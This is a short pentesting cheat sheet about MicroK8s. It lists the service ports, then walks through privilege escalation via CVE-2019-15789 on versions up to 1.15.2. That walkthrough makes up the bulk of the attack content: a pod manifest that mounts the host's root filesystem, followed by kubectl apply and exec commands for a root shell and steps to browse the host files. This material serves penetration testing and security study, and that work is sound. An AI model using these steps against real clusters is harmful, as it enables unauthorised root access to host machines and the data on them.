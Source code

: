 ```yaml
---
title: MicroK8s Pentesting
description: MicroK8s is a small, fast, single-package Kubernetes for developers.
tags:
    - Container
    - Privilege Escalation
refs:
    - https://microk8s.io/docs/services-and-ports
date: 2023-01-28
draft: false
---
```


## Ports and Services

- Port 10250 - kubelet
- Port 10255 - kubelet (read only)
- Port 10257 - kube-controller
- Port 10259 - kube-scheduler
- Port 16443 - API server
- Port 25000 - cluster-agent
- Port 32000 - Docker registry

<br />

## Docker Registry (port 32000)

It is the same as [Docker Registry Pentesting](/exploit/docker-registry-pentesting) . 

<br />

## Investigation from Inside

```bash
# Version
snap info microk8s
```

<br />

## Privilege Escalation (CVE-2019-15789) ≤ 1.15.2

See [the post](https://pulsesecurity.co.nz/advisories/microk8s-privilege-escalation) for details.

### 1. Create a Pod Yaml File

Replace the value of spec.containers.image with the image which we found in target system.

```bash
apiVersion: v1
kind: Pod
metadata:
  name: hostmount
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    command:
      - "bin/bash"
      - "-c"
      - "sleep 10000"
    volumeMounts:
      - name: root
        mountPath: /opt/root
  volumes:
  - name: root
    hostPath:
      path: /
      type: Directory
```

### 2. Apply the Yaml and Get a Root Shell

```bash
microk8s kubectl apply -f exploit.yaml
# "hostmount" is the value of the metadata.name in the exploit.yaml
microk8s kubectl exec -it hostmount /bin/bash
```

### 3. Explore Directories

After getting a shell, we can explore the directories under /opt/root which is mounted volume.

```bash
cd /opt/root
```
